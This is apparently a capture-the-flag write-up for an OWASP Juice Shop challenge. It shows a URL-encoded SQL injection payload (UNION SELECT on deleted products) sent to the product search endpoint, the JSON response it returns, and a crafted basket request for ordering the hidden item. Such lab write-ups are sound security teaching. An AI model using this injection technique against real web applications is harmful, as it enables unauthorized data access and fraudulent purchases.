


# Christmas Special

Order the Christmas special offer of 2014.

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings
- Burpsuite
- Cyberchef

# Solve

Because the item is a 2014 special, we can asume the item is deleted.
From burpsuite, we know that `/rest/products/search?q=` is the vulnerable endpoint and the `?q=param` is the vulnerable parameter.
Send this payload as the parameter, but first encode it with url encoding

```
test')) UNION SELECT * FROM PRODUCTS WHERE deletedAt IS NOT NULL--
```

We find that the item's id is 10



```
{"status":"success","data":[{"id":10,"name":"Christmas Super-Surprise-Box (2014 Edition)","description":"Contains a random selection of 10 bottles (each 500ml) of our tastiest juices and an extra fan shirt for an unbeatable price! (Seasonal special offer! Limited availability!)","price":29.99,"deluxePrice":29.99,"image":"undefined.jpg","createdAt":"2025-09-09 11:41:55.871 +00:00","updatedAt":"2025-09-09 11:41:55.871 +00:00","deletedAt":"2025-09-09 11:41:56.241 +00:00"},
```

We order that item using burpsuite



```
{"ProductId":10,"BasketId":"1","quantity":1}
```

And continue to checkout from the browser

